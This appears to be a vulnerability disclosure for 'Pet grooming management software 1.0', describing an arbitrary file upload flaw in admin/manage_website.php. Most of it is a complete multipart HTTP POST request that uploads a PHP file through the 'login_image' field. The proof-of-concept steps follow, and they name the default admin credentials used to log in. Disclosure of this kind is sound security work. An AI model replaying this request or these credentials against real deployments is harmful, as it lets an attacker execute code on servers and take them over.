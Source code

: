 

# Pet grooming management software  - 'login_image' Arbitrary File Upload

#### Exploit Title: Pet grooming management software - Arbitrary File Upload

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

The pet grooming management software has a vulnerability in uploading arbitrary files. In the 'manage_website.php' file, due to insufficient filtering of file suffixes, attackers can exploit this vulnerability to gain server privileges by uploading malicious files.

#### Payload used:

```
POST /admin/manage_website.php HTTP/1.1
Host: 192.168.67.28:8021
Accept-Encoding: gzip, deflate
Origin: http://192.168.67.28:8021
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynrYRiaBMmUAHonyv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.28:8021/admin/manage_website.php
Cookie: PHPSESSID=nn7i1gq9g3c5789ch9hgs6nogg
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 3656

------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="deduct"

1
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="title"

Pet Grooming Billing Software
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="currency_symbol"

₹
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_login_image"

Pets_Logo.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="login_image"; filename="111.php"
Content-Type: text/plain

<?php phpinfo(); ?>
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_website_image"

Pets_Logo.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="website_image"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_favicon"

favicon_pet.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="favicon"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_qr"

dumm_qr(1).png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="qr"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="footer"

Pet Grooming Billing Software
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="term"

<h4>1. <strong>Appointments &amp; Timings</strong></h4><p>Clients must arrive on time for scheduled appointments.</p><p>A delay of more than 15 minutes may result in rescheduling.</p><p>Walk-ins are accepted based on availability.</p><h4>2<strong>. Health &amp; Vaccinations</strong></h4><p>Pets must be up to date with vaccinations (especially Rabies).</p><p>We reserve the right to refuse service if a pet shows signs of illness, infection, or aggressive behavior.</p><p>The client must inform us of any medical conditions, allergies, or behavioral issues.</p><h4>3. <strong>Grooming Safety</strong></h4><p>We use safe, pet-friendly grooming products and tools.</p><p>In case of extreme matting, hair may need to be shaved to avoid injury.</p><p>We are not liable for any pre-existing conditions or issues arising from matting, skin problems, or aggressive behavior.</p><h4>4. <strong>Emergency Care</strong></h4><p>In the event of an injury or health concern during grooming, we will attempt to contact the owner immediately.</p><p>If needed, the pet may be taken to the nearest veterinary clinic at the owner's expense.</p><h4>5. <strong>Cancellations &amp; No-Shows</strong></h4><p>Please provide at least 24 hours’ notice for cancellations.</p><p>No-shows or last-minute cancellations may incur a fee.</p><h4>6. <strong>Photographs</strong></h4><p>We may take photos of pets after grooming for promotional use on our website or social media unless the client requests otherwise.</p><h4>7. <strong>Payment Terms</strong></h4><p>Full payment is required upon completion of grooming.</p><p>Prices may vary depending on breed, size, coat condition, and service duration.</p>
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_sign"

images (1).png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="sign"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="btn_web"


------WebKitFormBoundarynrYRiaBMmUAHonyv--

```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、Upload the file and capture the package.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/page2.png)

3、Modify the login_image to the PHP malicious file we are about to upload

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpayload-website.png)

4、After sending the request packet, the file can be accessed on the page, and the PHP file has been parsed, displaying information related to PHPINfo.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadfile2.png)

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpage2.png)

5、Source code related to vulnerabilities.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/code-loginimage.png)
